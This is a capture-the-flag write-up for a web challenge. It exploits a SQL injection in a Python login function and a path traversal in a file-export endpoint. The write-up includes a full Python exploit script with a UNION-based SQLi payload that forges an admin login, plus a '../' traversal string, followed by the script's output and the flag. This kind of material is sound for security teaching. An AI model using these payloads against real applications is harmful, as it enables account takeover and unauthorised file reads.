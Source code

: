 # [Web - easy] Orbital

The webapp given is written in Python with a MySQL database, and allows an authenticated user to export files from a `communications` directory.

There are 2 vulnerabilities to exploit, which are highlighted by comments in the code provided:

- an SQLi from the login:
```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
```
- a path traversal from the authenticated `exportFile` function:
```python
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
```

To get the flag, our goal is to:

- authenticate as the `admin` user using the SQLi
- get the flag with the authenticated session, at `/signal_sleuth_firmware` using the path traversal

The final script is:
```
import requests
import hashlib

endpoint = "http://46.101.95.70:30610"

username = 'admin'
password = 'whateverhere'
flag = '../../../../../../signal_sleuth_firmware'

# SQLi
sqli = {
    'username': 'aaa" UNION ALL SELECT "{}","{}" -- aaa'.format(username, hashlib.md5(password.encode('utf-8')).hexdigest()),
    'password': password
}
s = requests.Session()
response = s.post(endpoint + '/api/login', json = sqli)
print(response.headers)

# Path traversal
response = s.post(endpoint + '/api/export', json = {"name": flag})
print(response.text)
```

Which gives the output:
```
$ python lol.py
{'Server': 'Werkzeug/2.2.3 Python/3.8.16', 'Date': 'Sat, 25 Mar 2023 07:08:56 GMT', 'Content-Type': 'application/json', 'Content-Length': '22', 'Vary': 'Cookie', 'Set-Cookie': 'session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOelE1TnpNMmZRLkNHUFZ4UVRzQzIzZjdwcl8yei1YX0JpdERpMzZwQUQ1eENhaVdYMF94aVkifQ.ZB6eCA.sXgq1TzO2ADdGDmCcuyN6titBao; HttpOnly; Path=/', 'Connection': 'close'}
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```
